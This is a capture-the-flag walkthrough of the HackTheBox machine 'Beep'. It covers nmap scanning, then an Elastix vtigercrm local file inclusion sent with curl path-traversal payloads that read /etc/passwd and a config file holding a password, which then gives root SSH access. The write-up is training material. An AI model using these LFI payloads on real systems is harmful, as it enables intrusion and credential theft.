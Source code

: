 ```yaml
---
title: Beep
published: true
layout: post
---
```


<br />

---------------
Beep has a **very large list of running services**, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access. 
<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/HkEZ4S_7hnQ?si=hSYFPz9MnzKnJ07z" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------
<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.
<br />

Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn -vv
sudo nmap -sU 10.10.10.7 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn -vv
```
<br />

There were **19 open ports**:
+ **22/tcp**
+ **25/tcp**
+ **80/tcp**
+ **110/tcp**
+ **111/tcp**
+ **111/udp**
+ **123/udp**
+ **143/tcp**
+ **443/tcp**
+ **792/tcp**
+ **993/tcp**
+ **995/tcp**
+ **3306/tcp**
+ **4190/tcp**
+ **4445/tcp**
+ **4559/tcp**
+ **5038/tcp**
+ **10000/tcp**
+ **10000/udp**
<br />

Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```
<br />

There are a lot of services that does not provide relevant information, but the ones that do are:
+ **22/tcp OpenSSH 4.3 (protocol 2.0)**
+ **443/tcp Apache httpd 2.2.3 ((CentOS))**
+ **5038/tcp Asterisk Call Manager 1.1**
+ **10000/tcp MiniServ 1.570 (Webmin httpd)**
<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.7 -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.10.7 -p 111,123,10000 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.<br />

------
<br />
### Foothold

This machine didn't feel like an easy machine for me due to the overwhelming amount of open ports, some problems with SSL and being the first time I meet Elastix and FreePBX.<br />

We will focus on the website located on port 443, however it will give us a **TLS error** due to a very old version of it, to overcome this problem, we have to type about:config in our **Firefox URL bar** and set to **true** this element, if it doesn't exist, create it:

```
security.tls.version.enable-deprecated
```
<br />

Once this is done we can access the website to find an **Elastix login page**:<br />

![](/assets/Beep/1.png)
<br />
<br />

Searching for Elastix on `searchsploit` returns an **LFI vulnerability**:

```bash
searchsploit Elastix
```

![](/assets/Beep/2.png)
<br />
<br />

We can check this vulnerability by running:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/passwd%00&module=Accounts&action'
```

![](/assets/Beep/3.png)
<br />
<br />

The first I though after seeing this was **log poisoning**, however it didn't work, so I searched for sensitive files and found **Asterisk's configuration file /etc/amportal.conf**, so let's print it and omit comments:

```bash
curl -k 'https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action' | grep -v '^#'
```

![](/assets/Beep/4.png)
<br />
<br />

Great!! We have a **password**, we can try it with the **users we enumerated printing the /etc/passwd file**, it will give us some **algorithms errors**, so I will solve them with a few parameters, luckily for us, it was **root's password**:

```bash
ssh root@10.10.10.7 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=ssh-rsa
```

![](/assets/Beep/5.png)
<br />
<br />
